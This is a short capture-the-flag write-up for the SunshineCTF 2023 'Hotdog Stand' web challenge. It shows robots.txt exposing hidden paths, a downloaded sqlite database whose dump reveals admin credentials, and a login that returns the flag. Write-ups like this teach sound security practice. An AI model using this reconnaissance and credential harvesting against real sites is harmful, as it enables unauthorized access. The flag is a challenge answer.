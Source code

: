 # Hotdog Stand
> In the not-so-distant future, robots have taken over the fast-food industry. Infiltrate the robot hotdog stand to find out whatjobs still remain.

## Challenge
You are given the URL https://hotdog.web.2023.sunshinectf.games

## Solution
The web site shows a form where you can enter a *Robot ID* and an *Access Code*. The five mentions of *Robot* and the wellcoming *Humans, this interface isn't for you!* made look for the robots.txt

```
User-agent: *
Disallow: /configs/
Disallow: /backups/
Disallow: /hotdog-database/
```

By accessing */hotdog-database/* a *robot_data.db* was downloaded, which turned out to be a sqlite3 database:

```
sqlite3 robot_data.db

sqlite> .tables
credentials       customer_reviews  menu_items        robot_logs
sqlite> .dump credentials
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE credentials(
   id INTEGER PRIMARY KEY AUTOINCREMENT,
   username TEXT NOT NULL,
   password TEXT NOT NULL,
   role TEXT
);
INSERT INTO credentials VALUES(1,'hotdogstand','slicedpicklesandonions','admin');
COMMIT;
```

Then use *hotdogstand* with *slicedpicklesandonions* on the web page and you receive the token *sun{5l1c3d_p1cKl35_4nd_0N10N2}*


